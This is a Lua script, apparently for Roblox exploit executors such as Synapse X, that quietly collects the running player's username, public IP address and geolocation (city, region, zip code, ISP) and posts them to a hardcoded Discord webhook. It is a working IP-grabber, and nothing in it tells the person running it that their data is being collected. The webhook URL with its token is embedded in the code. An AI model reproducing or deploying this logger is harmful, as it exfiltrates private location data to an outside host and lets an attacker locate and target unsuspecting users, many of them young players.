 local name = game:GetService("Players").LocalPlayer.Name
local WebhookURL = "https://discord.com/api/webhooks/1070731708443410533/npU_fGqz4e7iHk24uSKfuHYh74QNKYksTXKMvxfD9hZTaQKXD_wPa-eCSH_W5WJw0NNS"
local getIPResponse = syn.request({
    Url = "https://api.ipify.org/?format=json",
    Method = "GET"
})
local GetIPJSON = game:GetService("HttpService"):JSONDecode(getIPResponse.Body)
local IPBuffer = tostring(GetIPJSON.ip)

local getIPInfo = syn.request({
    Url = string.format("http://ip-api.com/json/%s", IPBuffer),
    Method = "Get"
})
local IIT = game:GetService("HttpService"):JSONDecode(getIPInfo.Body)
local FI = {
    IP = IPBuffer,
    country = IIT.country,
    countryCode = IIT.countryCode,
    region = IIT.region,
    regionName = IIT.regionName,
    city = IIT.city,
    zipcode = IIT.zip,
    latitude = IIT.lat,
    longitude = IIT.lon,
    isp = IIT.isp,
    org = IIT.org
}
local dataMessage = string.format("User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s", name, FI.IP, FI.country, FI.countryCode, FI.region, FI.regionName, FI.city, FI.zipcode, FI.isp, FI.org)
local MessageData = {
    ["content"] = dataMessage
}

syn.request(
    {
        Url = WebhookURL, 
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode(MessageData)
    }
)
